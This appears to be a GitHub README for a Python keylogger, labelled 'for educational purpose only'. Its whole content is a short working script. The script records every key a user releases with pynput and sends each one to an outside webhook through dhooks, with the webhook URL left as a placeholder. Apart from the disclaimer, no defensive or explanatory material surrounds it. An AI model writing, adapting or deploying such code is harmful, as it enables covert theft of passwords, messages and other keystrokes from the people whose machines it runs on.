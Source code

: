 # keylogger_PY


FOR EDUCATIONAL PURPOSE ONLY 


```
from os import CLD_DUMPED
from types import ClassMethodDescriptorType
from pynput import keyboard
from dhooks import Webhook

hook = Webhook("webhookurl")


def on_release(key):
    hook.send(str(key))
    print('sent')

with keyboard.Listener(on_release=on_release) as listener:
    listener.join()

```

